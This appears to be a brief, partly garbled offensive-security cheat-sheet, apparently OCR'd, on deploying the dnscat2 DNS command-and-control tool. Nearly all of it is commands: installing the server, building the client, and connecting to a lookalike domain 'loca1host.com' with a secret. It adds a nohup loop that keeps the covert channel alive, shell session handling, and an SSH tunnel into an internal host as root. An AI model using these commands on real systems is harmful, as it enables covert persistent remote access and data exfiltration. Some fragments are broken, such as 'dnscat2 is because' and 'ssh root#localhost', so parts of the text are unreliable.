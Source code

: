 https://github.com/iagox86/dnscat2 is a tool designed to create an encrypted C2C channel over DNS

dnscat2 is because it does not require
root privileges and allows both shell access and exfiltration.

Server:

sudo su -
apt-get update
apt-get install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
apt-get install gcc make
gem install bundler
bundle install
ruby ./dnscat2.rb

ruby ./dnscat2.rb loca1host.com --secret 39dfj3hdsfajh37e8c902j


Client:

git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client
cd /opt/dnscat2/client/
make
We should now have a dnscat binary created!
(If in Windows: Load client/win32/dnscat2.vcproj into Visual Studio and hit "build")

./dnscat loca1host.com --secret 39dfj3hdsfajh37e8c902j

nohup /bin/bash -c "while true; do /opt/dnscat2/client/dnscat loca1host.com --secret
39dfj3hdsfajh37e8c902j --max-retransmits 5; sleep 3600; done" > /dev/null 2>&1 &

https://github.com/lukebaggett/dnscat2-powershell.

Server:
window

Interact with our first command sessions
window -i 1
Start a shell sessions
shell
Back out to the main session
Ctrl-z
Interact with the 2 session - sh
window -i 2

Tunnel in dnscat2

listen 127.0.0.1:9999 10.100.100.1:22

ssh root#localhost -p 9999

